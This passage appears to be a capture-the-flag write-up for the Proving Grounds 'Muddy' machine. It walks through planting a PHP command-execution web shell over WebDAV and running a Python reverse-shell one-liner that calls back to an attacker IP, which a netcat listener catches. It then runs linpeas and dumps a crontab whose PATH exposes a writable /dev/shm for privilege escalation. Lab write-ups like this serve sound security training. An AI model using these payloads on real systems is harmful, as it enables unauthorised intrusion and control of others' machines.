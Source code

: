 Directo to `webdav` directory and trigger the shell.

![img](/assets/images/CTF/Proving_Grounds/Muddy/webdav2.png)

**PHP Code Execution Payload**

```php
<?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }?>
```

Now check the python version and create reverse shell payload and obtain reverse shell.

```sh
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.200",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

```sh
naveenj@hackerspace:|22:38|~/proving_grounds/Muddy$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [192.168.45.200] from (UNKNOWN) [192.168.196.161] 40106
www-data@muddy:/var/www/html/webdav$
```

**Initial Foothold Obtained**

## Privilege Escalation

Download and run [linpeas](https://github.com/carlospolop/PEASS-ng/releases/download/20231008-041e379c/linpeas.sh) on the attacking machine.

The script results shows the user has write accesst to `/dev/shm` folder and a cronjob is running.

**Cronjob**

```sh
www-data@muddy:/dev/shm$ cat /etc/crontab
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/dev/shm:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*  *    * * *   root    netstat -tlpn > /root/status && service apache2 status >> /root/status && service mysql status >> /root/status
```
